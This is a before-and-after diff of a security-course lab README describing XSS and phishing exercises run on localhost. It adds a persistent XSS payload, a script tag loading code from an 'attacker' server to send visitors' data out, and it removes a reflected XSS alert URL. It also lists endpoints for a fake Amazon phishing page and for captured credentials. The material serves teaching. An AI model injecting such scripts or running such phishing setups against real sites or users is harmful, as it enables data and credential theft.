

Before and after one commit to HDR-2024-2025/laboratoare-sw-ElenaDenisa-Chelarasu, a Markdown page: README.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -73,20 +155,25 @@ URL vulnerabil:
+* The victim's browser will display an alert box with the text XSS attack!.
+
+### Persistent XSS
+
+Inject the payload in the registration form:
+
+```sh
+<script src="http://127.0.0.1:5000/script.js"></script>
 ```
-http://localhost:4567/cauta?q=<script type="text/javascript">alert("vulnerable");</script>
-```
-Acsta va realiza un pop up de tip alerta in care se va mentiona ca siteul este vulnerabil. Pentru a preveni acest tip de atac trebuie sa utilizam ```<%= %>``` în loc de ```<%- %>```. De asemenea, ar trebui sa sanitizam datele primite din query.
 
+Every user accessing the main page will execute the malicious code, sending data to the attacker's server.
+
+
+## Possible problems and how to solve it:
+
+Access to fetch at `http://localhost:5000/api/data` from origin `http://localhost:4567` has been blocked by CORS policy: Response to preflight request doesn't pass access control check: `No 'Access-Control-Allow-Origin' header is present on the requested resource`. If an opaque response serves your needs, set the request's mode to `no-cors` to fetch the resource with CORS disabled
 
 You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)
 
-**Lab10:**
+
+## Useful links
 
 Link to see the phishing email: http://localhost:5000/api/email
 Link to the fake amazon phishing page: http://localhost:5000/api/phishing
 Link to view the credentials sent to the server: http://localhost:5000/api/view-credentials
-
-**Lab11:**
-
-You can use this command to use the openssl in Windows more easily
-```
-"C:\Program Files\Git\usr\bin\openssl.exe" req -nodes -new -x509 -keyout server.key -out server.cert -days 365
-```
````
Also changed, not shown: other parts of README.md (+134 -52 lines).
